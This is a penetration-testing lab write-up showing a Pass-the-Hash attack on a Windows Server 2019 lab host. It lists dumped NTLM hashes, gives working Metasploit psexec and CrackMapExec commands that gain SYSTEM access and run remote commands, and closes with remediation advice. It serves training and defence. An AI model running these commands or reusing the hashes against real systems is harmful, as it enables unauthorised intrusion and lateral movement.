






# Pass-The-Hash Attack

**Classification:** Host & Network Penetration Testing / System & Host-Based Attacks<br>
**Target:** 10.2.29.61 (ATTACKDEFENSE) — Windows Server 2019 (Build 17763)<br>
**Attacker:** 10.10.41.3 (Kali)

## 1. Executive Summary

With the Administrator NTLM hash already dumped from a prior foothold, we perform a
**Pass-the-Hash** attack: authenticating with the hash instead of a cleartext password.
Metasploit's `psexec` module accepts the `LM:NT` hash as `SMBPass` and returns a
`NT AUTHORITY\SYSTEM` Meterpreter session, and **CrackMapExec** confirms access and runs
commands remotely.

## 2. Credentials

Dumped NTLM/LM hashes from the earlier SAM extraction:

```
Administrator : aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d
Student       : bd4ca1fbe028f3c5066467a7f6a73b0b
SysKey        : 377af0de68bdc918d22c57a263d38326
SAMKey        : 858f5bda5c99e45094a6a1387241a33d
```

## 3. Setup

```bash
service postgresql start && msfconsole
```



## 4. Pass-the-Hash with psexec

Configuring the `psexec` module with the Administrator hash as the password.

```bash
use exploit/windows/smb/psexec
set RHOSTS 10.2.29.61
set LPORT 4422
set SMBUser Administrator
```



```bash
set SMBPass aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d
exploit
```

The hash authenticates and a SYSTEM session opens.

```
getuid    # NT AUTHORITY\SYSTEM
sysinfo   # ATTACKDEFENSE — Windows Server 2019
```



## 5. Pass-the-Hash with CrackMapExec

CrackMapExec confirms the hash is valid (`Pwn3d!`).

```bash
crackmapexec smb 10.2.29.61 -u Administrator -H "aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d"
```



Running commands remotely with `-x`.

```bash
crackmapexec smb 10.2.29.61 -u Administrator -H "aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d" -x "ipconfig"
```



```bash
crackmapexec smb 10.2.29.61 -u Administrator -H "...:e3c61a68f1b89ee6c8ba9507378dc88d" -x "whoami"
# attackdefense\administrator
```



## 6. Remediation Recommendations

1. **Limit NTLM** and prefer Kerberos; where possible disable NTLM authentication.
2. **Protect LSASS/SAM** (Credential Guard, LSA protection) to prevent hash dumping.
3. **Enforce LAPS** so local Administrator hashes are unique per host — defeating lateral
   PtH reuse.
4. **Enable SMB signing**, restrict admin logon types, and monitor for `psexec`-style
   service creation and remote command execution.
